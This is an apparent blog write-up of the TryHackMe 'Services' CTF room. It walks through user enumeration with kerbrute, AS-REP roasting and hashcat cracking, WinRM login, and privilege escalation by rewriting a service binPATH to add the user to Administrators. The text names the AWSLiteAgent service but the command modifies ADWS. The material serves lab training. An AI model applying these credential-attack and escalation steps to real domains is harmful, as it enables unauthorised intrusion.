

# Services
**Date:** November 12th 2023

**Author:** j.info

**Link:** [**Services**](https://tryhackme.com/room/services) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>


<br>

## Objectives
- What is the user flag?
- What is the Administrator flag?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Above Services
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-13 01:25:36Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| rdp-ntlm-info: 
|   Target_Name: SERVICES
|   NetBIOS_Domain_Name: SERVICES
|   NetBIOS_Computer_Name: WIN-SERVICES
|   DNS_Domain_Name: services.local
|   DNS_Computer_Name: WIN-SERVICES.services.local
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-13T01:25:49+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49902/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/img                  (Status: 403) [Size: 1233]
/js                   (Status: 403) [Size: 1233]
/css                  (Status: 403) [Size: 1233]
/fonts                (Status: 403) [Size: 1233]
```

<br>

## Website Digging

Visiting the main page:


Looking at the About Us page shows 4 names as well as the username format:


So we have j.doe, j.rock, w.masters, and j.larusso as potential users. Let's use kerbrute to test if these are valid:

`kerbrute userenum --dc $ip -d services.local users.txt`


All 4 are valid! Let's see if we can ASREPROAST any of them:

`impacket-GetNPUsers -request services.local/ -dc-ip $ip -format hashcat -usersfile users.txt -outputfile asrep.hash`


Alright now we're getting somewhere and have captured a hash for j.rock. Let's run that through hashcat and see if we can crack it.

`hashcat -m 18200 -w 3 -O -D 1,2,3 hash.txt rockyou.txt`


Nice, we have a password. From our nmap scans we know that RDP is open but when I tried to connect over it appears j.rock is not allowed to use RDP.

<br>

## System Access

The WinRM ports were also open so I try and use evil-winrm to connect and it works!

`evil-winrm -i $ip -u j.rock -p PASSWORD`


You can see from the screenshot that we land on WIN-SERVICES as user j.rock, and that we were not a member of the Remote Desktop Users group.

<br>

## System Enumeration

You can get the user.txt flag from the j.rock desktop.

Checking `whoami /priv` shows we do not have SeImpersonatePrivilege.

I load up PowerView and start some enumeration.

`Get-DomainGroupMember -Identity "Domain Admins" -Recurse | select MemberName`

```
MemberName
----------
Administrator
```

So only one DA.

Checking to see if any passwords are stored in descriptions doesn't give us anything.

`Get-DomainUser | select samaccountname, description`

```
samaccountname description
-------------- -----------
Administrator  Built-in account for administering the computer/domain
Guest          Built-in account for guest access to the computer/domain
krbtgt         Key Distribution Center Service Account
j.rock         IT Support
j.doe
w.masters
j.larusso
```

I check other things like available network shares, what domain groups I belong to, etc and nothing is helpful.

I loaded PowerUp and ran an Invoke-PrivescAudit but no luck there.

Looking at `net user j.rock` it shows we're a member of two groups: Remote Management Users and Server Operators. The Server Operators group is exploitable in that we can change services, which I'm guessing is why this box is named Services.

Running `services` shows the following running:
```
Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc
```

It looks like we have privileges over most of the running services and we should be able to modify them in malicious ways.

You can change the binary path of a service and restart it to get it to do something you want and escalate your privileges.

I run the following to change the binary path of the AWSLiteAgent service:

`cmd /c sc config ADWS binPATH="net localgroup Administrators j.rock /add"`

Then stop and start the service:

`cmd /c sc stop ADWS`
`cmd /c sc start ADWS`

After that I check `net localgroup Administrators` and see we've been added! In order for the privileges to kick in disconnect and reconnect with evil-winrm.


<br>

## Root

Alright, let's go get our flag!

I change over to the administrator desktop and try to view root.txt but it doesn't let me. Odd.

Looking at the file permissions shows that j.rock specifically has been given no permissions on the file. Well that's just annoying.

I use `icacls * /T /grant j.rock:F` to change the permissions of all files in the folder and then make sure it took, which it did, and I'm able to view the root.txt flag.


You could have also created a reverse shell with msfvenom and uploaded it to the box and then changed the binPATH to the reverse shell instead of having it add you to the administrators group. When it connected back you would have had NT AUTHORITY\SYSTEM access and wouldn't have had issues viewing the root.txt flag.

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Manual enumeration of the website to find usernames
- Using **kerbrute** to find valid users
- Discovering we can **ASREPROAST** a user with **impacket-GetNPUsers**
- Cracking the ASREPROAST hash with **hashcat**
- Connecting to the system with **Evil-WinRM**
- Performing basic enumeration and finding we're a member of the **Server Operators** group
- Abusing the **Server Operators** privileges to modify the binPATH of a service for privilege escalation
- Modifying file permissions from the command line with **icacls**

<br>

Many thanks to:
- [**hadrian3689**](https://tryhackme.com/p/hadrian3689) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)